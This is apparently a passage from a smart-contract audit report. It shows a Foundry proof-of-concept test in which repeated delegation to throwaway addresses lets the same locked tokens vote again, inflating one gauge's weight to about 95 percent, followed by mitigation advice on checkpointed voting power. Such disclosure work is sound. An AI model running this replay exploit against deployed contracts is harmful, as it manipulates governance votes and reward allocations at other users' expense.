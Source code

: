 >    vm.startPrank(user2);
>    ve.createLock{value: v}(v);
>    gc.vote_for_gauge_weights(user2, 10_000);
>    vm.stopPrank();
>
>    uint256 expectedWeight_ = gc.get_gauge_weight(user1);
>
>    assertEq(gc.gauge_relative_weight(user1, 7 days), 50e16);
>
>    uint256 numDelegatedTimes_ = 20;
>
>    for (uint i_; i_ < numDelegatedTimes_; i_++) {
>        address fakeUserI_ = vm.addr(i_ + 27); // random num
>        vm.deal(fakeUserI_, 1);
>
>        vm.prank(fakeUserI_);
>        ve.createLock{value: 1}(1);
>
>        vm.prank(user1);
>        ve.delegate(fakeUserI_);
>
>        vm.prank(fakeUserI_);
>        gc.vote_for_gauge_weights(user1, 10_000);
>    }
>
>    // assert that the weight is approx numDelegatedTimes_ more than expected
>    assertEq(gc.get_gauge_weight(user1), expectedWeight_*(numDelegatedTimes_ + 1) - numDelegatedTimes_*100);
>
>    // relative weight has been increase by a lot, can be increased even more if wished
>    assertEq(gc.gauge_relative_weight(user1, 7 days), 954545454545454545);
>}
>```
>
>## Tools Used
>
>Vscode, Foundry
>
>## Recommended Mitigation Steps
>
>The vulnerability comes from the fact that the voting power is fetched from the current timestamp, instead of n blocks in the past, allowing users to vote, delegate, vote again and so on. Thus, the voting power should be fetched from n blocks in the past.
>
>Additionaly, note that this alone is not enough, because when the current block reaches n blocks in the future, the votes can be replayed again by having delegated to another user n blocks in the past. The exploit in this scenario would become more difficult, but still possible, such as: vote, delegate, wait n blocks, vote and so on. For this reason, a predefined window by the governance could be scheduled, in which users can vote on the weights of a gauge, n blocks in the past from the scheduled window start.
>
>## Assessed type
>
>Other
